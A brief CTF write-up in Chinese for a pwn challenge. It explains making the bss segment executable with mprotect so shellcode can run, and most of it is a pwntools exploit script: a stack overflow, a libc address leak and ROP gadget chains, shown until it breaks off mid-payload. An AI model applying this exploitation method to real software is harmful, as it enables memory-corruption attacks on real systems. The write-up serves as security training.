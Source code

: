 ## pwn20220328(栈沙盒改权限)

这题读入范围较少，无法直接构造orwrop链

所以考虑写权限，把bss段权限写成7，这样就可以执行shellcode了

如果不知道远程flag名字可以多跑一边拿目录，这里直接默认flag了

![image-20220329172419755](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220329172419755.png)

结果

![image-20220329172740225](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220329172740225.png)

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
p=process('./shell')
elf=ELF('./shell')
libc=ELF('./libc-2.27.so')


s       = lambda data               :p.send(data)
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda name,data          :p.success(name + "-> 0x%x" % data)

bss = 0x601000+0x500
read = 0x4007D4
pop_rdi=0x400863
pop_rsi=0x0000000000400861
ret = 0x0000000000400536
leave_ret = 0x4007FB
main = 0x40075D

p.recv()
pay='a'*0x20+p64(bss)+p64(pop_rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(read)
# gdb.attach(p)
p.send(pay)
p.recvuntil("let me guess\n")
base=u64(p.recv(6)+'\x00'*2)-libc.sym['puts']
lg("base",base)
open_addr = libc.sym['open']+base
read_addr = base+libc.sym["read"]
pop_rdx = base+0x0000000000001b96#pop rdx; ret;
puts = base+elf.sym['puts']

pay1 = 'a'*0x20+p64(bss+0x20)+p64(read)
p.send(pay1)

prdi_ret = 0x400863
prsi_ret = base+0x23a6a
prdx_ret = base+0x0000000000001b96
prax_ret = base+0x000000000001b500
jmp_rsp = base+0x0000000000002b25
syscall= base+0xd2625
print("jmp"+hex(jmp_rsp))
mprotect_addr = base + libc.sym['mprotect']
flag = 'flag'
payload = p64(0)+p64(prdi_ret)+p64(bss-0x500)
```